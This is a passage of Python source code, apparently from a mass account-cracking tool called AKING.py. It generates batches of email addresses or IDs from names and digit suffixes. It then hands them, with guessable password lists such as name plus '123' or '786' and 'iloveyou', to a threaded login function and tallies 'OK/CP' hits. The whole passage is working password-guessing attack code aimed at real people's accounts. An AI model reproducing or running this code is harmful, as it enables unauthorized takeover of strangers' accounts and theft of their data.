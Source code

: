                         for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'Bangladesh','bangladesh','i love you','iloveyou','free fire','freefire']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python AKING.py')
def gmail():
                os.system('rm -rf .re.txt')
                clear()
                print('\033[1;37m example: muhammad, ali, sajjad, faizan\033[1;97m')
                linex()
                first = input(' Put first name: ')
                linex()
                print('\033[1;37m example: khan, ahmad, ali \033[1;97m')
                linex()
                last = input(' Put last name: ')
                linex()
                print(' Example: @gmail.com , @yahoo.com etc...')
                linex()
                domain = input(' domain: ')
                linex()
                try:
                        limit=int(input(' Put limit: '))
                except ValueError:
                        limit = 5000
                linex()
                print(' Getting gmails...')
                lists = ['3','4']
                for xd in range(limit):
                        lchoice = random.choice(lists)
                        if '3' in lchoice:
                                mail = ''.join(random.choice(string.digits) for _ in range(3))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        else:
                                mail = ''.join(random.choice(string.digits) for _ in range(4))
                                open('.re.txt','a').write(first.lower()+last.lower()+mail+domain+'|'+first+' '+last+'\n')
                        fo = open('.re.txt', 'r').read().splitlines()
                with tred(max_workers=30) as Aking:
                        total = str(len(fo))
                        clear()
                        print(' Total account : \033[1;32m'+total)
                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                        linex()
                        for user in fo:
                                ids,names = user.split('|')
                                first_name = names.rsplit(' ')[0]
                                try:
                                        last_name = names.rsplit(' ')[1]
                                except IndexError:
                                        last_name = 'Khan'
                                fs = first_name.lower()
                                ls = last_name.lower()
                                passlist = [fs+ls,fs+' '+ls,fs+'123',fs+'12345',fs+'1122',fs,fs+'1234',fs+'786',fs+'12']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()